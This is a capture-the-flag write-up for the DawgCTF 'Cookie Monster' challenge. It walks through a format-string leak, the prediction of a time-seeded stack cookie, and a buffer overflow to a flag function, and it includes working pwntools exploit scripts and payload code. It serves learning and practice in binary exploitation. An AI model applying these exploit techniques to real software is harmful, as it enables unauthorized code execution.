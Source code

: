 # Cookie Monster

## Description

> Hungry?
> 
> nc ctf.umbccd.io 4200

Attached is the binary file.

## Solution

Let's reverse the binary with [Ghidra](https://ghidra-sre.org/).

The `main` function prints a cookie monster, then calls the function `conversation`, which we will exploit.

```c
void conversation(void)
{
  time_t tVar1;
  char buf [5];
  char name [8];
  uint local_cookie;
  
  tVar1 = time((time_t *)0x0);
  srand((uint)tVar1);
  saved_cookie = rand();
  local_cookie = saved_cookie;
  puts("\nOh hello there, what\'s your name?");
  fgets(name,8,stdin);
  printf("Hello, ");
  printf(name);
  puts("\nWould you like a cookie?");
  gets(buf);
  check_cookie((ulong)local_cookie);
  return;
}
```

The function initialises the pseudo randomness with `time`, then creates a random value and saves it in `local_cookie`. It acts as a canary: at the end of the function, a check is performed in `check_cookie`, to ensure the value of the local variable (on the stack) has not been changed.

After creating the cookie, we may enter 7 characters (one is used for `\n`), which will be printed with `printf(name)`. This is a format string vulnerability, and therefore we can leak arbitrary data on the stack. Due to the size limitation however, we may only leak one address...

Then the `gets` function allow for a buffer overflow. As we analyse the binary, we see a function `flag`, which displays the flag.

The exploit is therefore the following: we need to retrieve the value of the cookie on the stack, using the format string vulnerability, then overflow the buffer and replace the return address by the address of `flag`, and we need to conserve the value of `local_cookie`.

This looks quite straightforward, except that PIE and ASLR are activated! Therefore the address of `flag` changes between executions. We may use the format string vulnerability, but we can only leak one value at a time...

Lucky for us, the cookie is generated using poor randomness! It just uses the current time, and therefore if we can synchronize with the server, we may compute the exact same values.

The exploit is therefore the following:
- use the format string vulnerability to leak the time of the server
- run the program again
- use the format string vulnerability to leak the return address
- compute the address of flag, being the return address plus a constant offset
- compute locally the cookie, knowing the server's time
- overflow the buffer, by replacing the cookie with its computed value (hopefully nothing changes) and replacing the return address with the computed `flag` address.

Let's look at each step one by one.

### Synchronize with server

The idea is the following: we connect to the server, at the same time we launch our own C program which prints the local time. Then we use the format string vulnerability to display the cookie, and then we perform a search on the server's time to find which time could yield to the chosen random number.

This gives us the time difference between local machine and remote server.

First, let's find the cookie value on the stack. Using `gdb` to debug the program locally, we see that the `local_cookie` variable is located at `-0x4(rbp)`. Then we exploit the format string vulnerability to see the values on the stack, by inputing `%{}$p`, where we may choose `{}` until we get the cookie value.

![leak_the_stack](../images/cookie_stack.png)

In the picture above, we input `%9$p`, which is a format string which will display the 9th value on the stack. This is the red value displayed, and when we compare it to the cookie stored on the stack, it matches. So we've found its position on the stack.

Now we can synchronize ourself with the server. This simple C program will just print the local time:

```c
#include <stdio.h>
#include <time.h>

int main() {
  printf("%ld\n", time(NULL));
  return 0;
}
```

We compile it with:

```bash
gcc -o time time.c
```

Then we use this simple Python script to retrieve all necessary information:

```python
from pwn import *
import os

sh = remote("ctf.umbccd.io", 4200)

os.system("./time")

print(sh.recvuntil("name?").decode())
sh.sendline("%9$p")
text = sh.recvuntil("cookie?").decode()
print(text)
```

This prints the local time and the cookie. Then we use the following C program to find the offset. As `time` is in seconds, we make the assumption that the time difference is lower than 200s.

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

#define COOKIE {cookie_value}
#define LOCAL_TIME {local_time_value}

int main() {
  for(time_t t = LOCAL_TIME - 200; t < LOCAL_TIME + 200; ++t) {
    srand(t);
    if(rand() == COOKIE) {
      printf("%ld"\n, t - LOCAL_TIME);
      break;
    }
  }
  return 0;
}
```

We compile it, execute it, and find the time difference between the server and our local computer.

### Find address of flag

Because of PIE and ASLR, functions will not have the same address between different executions. Addresses will have the form `addr = random_value + constant_offset`. Therefore, we can read using format string vulnerability the original return address, and then deduce by adding a constant offset the address of flag. As we know the cookie is the 9th element on the stack, we deduce the return address is the 11th when exploiting the format string vulnerability, and therefore inputing `%11$p` will leak the original return address. Then we can compute the offset:

![Flag offset](../images/cookie_addr_flag.png)

In red is the original return address, and in green the address of `flag` for this run. Therefore the offset is `1b5 - 34f = -19a`.

### Complete exploit

This script performs the exploit:

```python
from pwn import *

sh = remote("ctf.umbccd.io", 4200)

cookie = int(os.popen("./rand").read())

print(sh.recvuntil("name?").decode())
sh.sendline("%11$p")
text = sh.recvuntil("cookie?").decode()
print(text)
original_ret = text.split("\n")[1][7:]
original_ret = int(original_ret, 16)

print(hex(original_ret))
print(hex(cookie))

flag = original_ret - 0x19a

payload = b'0'*13 + p32(cookie) + b'aaaabbbb' + p64(flag)
sh.sendline(payload)
sh.interactive()
```

with `rand.c` the following file:

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

#define TIME_OFFSET {time_offset}

int main() {
  srand(time(NULL) + TIME_OFFSET);
  printf("%d"\n, rand());
  return 0;
}
```

![cookie](../images/cookie.png)

Flag: `DawgCTF{oM_n0m_NOm_I_li3k_c0oOoki3s}`
